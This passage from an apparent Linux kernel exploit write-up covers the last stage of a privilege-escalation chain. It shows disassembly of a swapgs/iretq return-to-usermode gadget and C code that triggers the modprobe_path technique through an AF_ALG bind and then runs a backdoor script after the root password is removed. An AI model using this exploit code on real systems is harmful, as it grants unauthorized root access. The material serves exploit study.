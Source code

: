 I initially have to correct the writing index, as our control starts at offset 0x180 into our payload (thx qdisc you're awesome), then accounting for the `msg_msg` header (0x30). We skip an additional 8 bytes because of the unfortunate `pop rbx` in our pivot gadget. The `swapgs_return_to_usermode` gadget refers to this area of `common_interrupt_return`:

```asm
   0xffffffff82401126 <common_interrupt_return+54>:     mov    rdi,rsp
   0xffffffff82401129 <common_interrupt_return+57>:     mov    rsp,QWORD PTR gs:0x6004
   0xffffffff82401132 <common_interrupt_return+66>:     push   QWORD PTR [rdi+0x30]
   0xffffffff82401135 <common_interrupt_return+69>:     push   QWORD PTR [rdi+0x28]
   0xffffffff82401138 <common_interrupt_return+72>:     push   QWORD PTR [rdi+0x20]
   0xffffffff8240113b <common_interrupt_return+75>:     push   QWORD PTR [rdi+0x18]
   0xffffffff8240113e <common_interrupt_return+78>:     push   QWORD PTR [rdi+0x10]
   0xffffffff82401141 <common_interrupt_return+81>:     push   QWORD PTR [rdi]
   0xffffffff82401143 <common_interrupt_return+83>:     push   rax
   0xffffffff82401144 <common_interrupt_return+84>:     xchg   ax,ax
   0xffffffff82401146 <common_interrupt_return+86>:     mov    rdi,cr3
   0xffffffff82401149 <common_interrupt_return+89>:     jmp    0xffffffff8240117f <common_interrupt_return+143>
   ...
   0xffffffff8240117f <common_interrupt_return+143>:    or     rdi,0x1000
   0xffffffff82401186 <common_interrupt_return+150>:    mov    cr3,rdi
   0xffffffff82401189 <common_interrupt_return+153>:    pop    rax
   0xffffffff8240118a <common_interrupt_return+154>:    pop    rdi
   0xffffffff8240118b <common_interrupt_return+155>:    swapgs 
   0xffffffff8240118e <common_interrupt_return+158>:    nop    DWORD PTR [rax+0x0]
   0xffffffff82401195 <common_interrupt_return+165>:    jmp    0xffffffff824011b7 <common_interrupt_return+199>
   ...
   0xffffffff824011b7 <common_interrupt_return+199>:    test   BYTE PTR [rsp+0x20],0x4
   0xffffffff824011bc <common_interrupt_return+204>:    jne    0xffffffff824011c0 <common_interrupt_return+208>
   0xffffffff824011be <common_interrupt_return+206>:    iretq  
```

But besides that its pretty bog standard. After successfully returning to usermode, we get dropped back to our `user_pc`/`retfunc` in our exploit. 

```c
void retfunc() {
  puts("Back in usermode yayyy");

  // https://theori.io/blog/reviving-the-modprobe-path-technique-overcoming-search-binary-handler-patch
  struct sockaddr_alg sa;
  int alg_fd = socket(AF_ALG, SOCK_SEQPACKET, 0);
  if (alg_fd < 0) {
    perror("socket(AF_ALG) failed");
    exit(-1);
  }

  memset(&sa, 0, sizeof(sa));
  sa.salg_family = AF_ALG;
  // Thx theorio
  strcpy((char *)sa.salg_type, "V4bel"); // dummy string
  bind(alg_fd, (struct sockaddr *)&sa, sizeof(sa));

  // Should've deleted the root password atp so we gud
  system("/backdoor.sh");
  exit(0);
}
```
